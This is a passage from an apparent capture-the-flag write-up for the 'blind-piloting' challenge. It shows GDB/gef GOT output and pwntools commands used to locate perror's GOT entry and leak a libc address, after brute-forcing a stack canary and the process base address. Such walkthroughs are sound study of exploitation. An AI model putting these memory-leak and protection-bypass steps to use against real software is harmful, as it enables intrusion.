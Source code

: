 The right pane is the output of all three bruce-force attacks.  We have the canary, the first flag, and the base process address (`0x563df74f1000`).  In the left pane GDB (gef) is running with `set follow-fork-mode child` with `context` output.

#### Use `perror` to leak `libc` address

In the left pane type `got`:

```
gef➤  got

GOT protection: Full RelRO | GOT functions: 9

[0x563df76f1f90] write@GLIBC_2.2.5  →  0x7f72abaa7300
[0x563df76f1f98] __stack_chk_fail@GLIBC_2.4  →  0x7f72abac8dd0
[0x563df76f1fa0] system@GLIBC_2.2.5  →  0x7f72ab9eb4e0
[0x563df76f1fa8] read@GLIBC_2.2.5  →  0x7f72abaa7260
[0x563df76f1fb0] setvbuf@GLIBC_2.2.5  →  0x7f72aba1dd50
[0x563df76f1fb8] waitpid@GLIBC_2.2.5  →  0x7f72aba7ba30
[0x563df76f1fc0] perror@GLIBC_2.2.5  →  0x7f72ab9fb4f0
[0x563df76f1fc8] exit@GLIBC_2.2.5  →  0x7f72ab9dfd40
[0x563df76f1fd0] fork@GLIBC_2.2.5  →  0x7f72aba7bd90
```

`perror` is `procbase` + `0x200fc0`.  This is our _pointer_ to a _libc_ address (e.g. `0x7f72ab9fb4f0`).

Actually, there is an easier way to find this with _pwntools_, in the right pane, type:

```
binary = ELF('blindpiloting')
perror_got = binary.got['perror']
hex(perror_got)
hex(procbase + perror_got)
```

Output:

```
>>> binary = ELF('blindpiloting')
[*] '/pwd/datajerk/b01lersctf/blind-piloting/blindpiloting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> perror_got = binary.got['perror']
>>> hex(perror_got)
'0x200fc0'
>>> hex(procbase + perror_got)
'0x563df76f1fc0'
```

That last value (`0x563df76f1fc0 `) should match `perror` in the GOT above (`[0x563df76f1fc0] perror@GLIBC_2.2.5`).
